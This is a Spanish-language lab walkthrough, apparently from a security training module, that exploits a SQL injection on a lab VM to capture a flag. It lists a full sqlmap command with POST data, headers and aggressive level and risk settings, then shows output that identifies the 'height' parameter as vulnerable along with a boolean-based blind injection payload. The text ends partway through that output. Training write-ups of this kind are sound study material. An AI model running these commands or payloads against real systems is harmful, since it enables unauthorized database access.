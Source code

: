# Walk: SQL Injections Attacks - Module Exercise - VM #3 

## Fecha: 28/01/2025
## Host: Ubuntu
## IP: 192.168.193.49

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #3 and exploit the SQLi vulnerability to get the flag

## Herramientas
1. **sqlmap**
2. **curl**

## Procedimiento y comandos
1. Paso 1: Encontrar formularios y parametros vulnerables que sirvan como punto de inyeccion.
2. Paso 2: Revisamos en base a las cabeceras obtenidas con Burp, con sqlmap:
	- class.php: 
	--method=POST: Especifica que se usará el método POST.
	--data: Incluye el cuerpo de los datos enviados en la solicitud.
	-p "weight,height,age,gender,email": Define los parámetros que quieres probar, separados por comas.
	--headers: Agrega las cabeceras relevantes para simular correctamente el entorno original de la solicitud.
	--level=5 y --risk=3: Aumentan la profundidad de las pruebas y los payloads que sqlmap intenta.
	--batch: Evita que sqlmap solicite confirmaciones manuales, útil para automatizar pruebas.

	```
	sqlmap -u "http://192.168.193.49/class.php" --method=POST --data="weight=70&height=174&age=38&gender=Male&email=test%40duckman.com" -p "weight,height,age,gender,email" --headers="Cache-Control: max-age=0; Accept-Language: en-US,en;q=0.9; Origin: http://192.168.193.49; Content-Type: application/x-www-form-urlencoded; Upgrade-Insecure-Requests: 1; User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36; Referer: http://192.168.193.49/class.php; Accept-Encoding: gzip, deflate, br; Connection: keep-alive" --level=5 --risk=3 --batch
	```
	- Obtenemos que el parametro hight es vulnerable.
	```
	POST parameter 'height' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
	sqlmap identified the following injection point(s) with a total of 8818 HTTP(s) requests:
	---
	Parameter: height (POST)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
	    Payload: weight=70&height=174' AND 5487=(SELECT (CASE WHEN (5487=5487) THEN 5487 ELSE (SELECT 1841 UNION SELECT 7367) END))-- CQqR&age=38&gender=Male&email=test@duckman.com
